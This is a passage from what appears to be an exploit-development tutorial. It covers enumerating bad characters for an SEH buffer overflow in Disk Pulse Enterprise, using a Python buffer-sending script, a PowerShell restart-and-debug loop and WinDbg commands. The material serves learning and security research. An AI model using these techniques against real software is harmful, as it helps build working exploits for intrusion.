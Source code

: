 


## 3. Enumerate the Bad Characters

Determine the bad characters set which when included causes unwanted behavior.

{% code title="sehof_bad_chars.py" %}
```python
#!/usr/bin/env python3

size = 6000

badchars = (
    b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10'
    b'\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20'
    b'\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30'
    b'\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40'
    b'\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50'
    b'\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60'
    b'\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70'
    b'\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80'
    b'\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90'
    b'\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0'
    b'\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0'
    b'\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0'
    b'\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0'
    b'\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0'
    b'\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0'
    b'\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
)
filler  = b'A' * 2499
handler = LE(0xd34dc0d3)
junk    = b'C' * (size - len(filler + handler + badchars))

buf = filler + handler + badchars + junk
send(buf)
```
{% endcode %}

In case the bad characters cause the SEH overflow not happen at all, this command can help to speed up the debug routine:

```
PS > Restart-Service "Disk Pulse Enterprise"; .\DbgX.Shell.exe -pn diskpls.exe -c 'g; !exchain'; sleep 3; python C:\sehof_bad_chars.py
```

In case the bad characters are truncated from memory, dump the bytes (*EstablisherFrame* - the second argument of the vulnerable *ExecuteHandler*) and examine them manually or use [find-bad-chars.py](https://github.com/epi052/osed-scripts/blob/main/find-bad-chars.py) by [@epi052](https://twitter.com/epi052):

```
0:012> g; dds esp L3
01c7b8f8  77e06f82 ntdll!ExecuteHandler2+0x26
01c7b8fc  01c7ba00
01c7b900  01c7ff54
0:012> db 01c7ff54+8 L100

Or

0:012> .load pykd
0:012> !py C:\OSED\find-bad-chars.py -a 01c7ff54
```
